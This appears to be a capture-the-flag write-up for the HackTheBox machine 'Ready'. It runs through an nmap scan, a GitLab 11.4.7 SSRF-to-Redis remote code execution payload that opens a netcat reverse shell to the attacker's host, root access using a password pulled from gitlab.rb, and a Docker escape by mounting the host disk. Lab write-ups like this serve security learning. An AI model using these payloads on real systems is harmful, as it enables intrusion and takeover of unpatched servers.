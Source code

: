 # Ready
IP : 10.10.10.220

## Nmap
Command : 
nmap -A -oN ready.txt 10.10.10.220
Port: 
22/tp 	ssh
5080/tcp http nginx 1.14.2
OS: 
unknown.

## web application 
Version : 
GitLab Commuity Edition v 11.4.7
Vulnerability to RCE via SSRF
https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/

Using the things I learned from "liveoverflow" I learned about crafting a package which can be sent using burb, remeber to create a netcat listener 
````
nc -lvnp 1234
````

````Bash
git://\[0:0:0:0:0:ffff:127.0.0.1\]:6379/ 
 multi
 sadd resque:gitlab:queues system\_hook\_push
 
 lpush resque:gitlab:queue:system\_hook\_push "{\\"class\\":\\"GitlabShellWorker\\",\\"args\\":\[\\"class\_eval\\",\\"open(\\'|nc -e /bin/bash 10.10.16.X 1234\\').read\\"\],\\"retry\\":3,\\"queue\\":\\"system\_hook\_push\\",\\"jid\\":\\"ad52abc5641173e217eb2e52\\",\\"created\_at\\":1513714403.8122594,\\"enqueued\_at\\":1513714403.8129568}" 
 
 exec

 exec 
/ssrf.git
````

Get user flag in /home/dude 

## Root
Emulating we see a backup folder, here we find password to smtp
````bash
cat gitlab.rb | grep password 
````
wW59U!ZKMbG9+*#h
remember to upgrade the shell 

````Python 
python3 -c "import pty; pty.spawn('/bin/bash')"
````

become root 

````bash
su root 
```` 
where the password is one you found in gitlab.rb 

But nothing to be found inside root dir. look like we are in a container. 
by going to /proc/1/cgroup 
We that it a docker container we are inside. 

let try esacape the container. 
````Bash
mkdir /tmp/test
mount /dev/sda2 /tmp/test
cat /tmp/test/root/root.txt
````

Volla the machine is exploitet.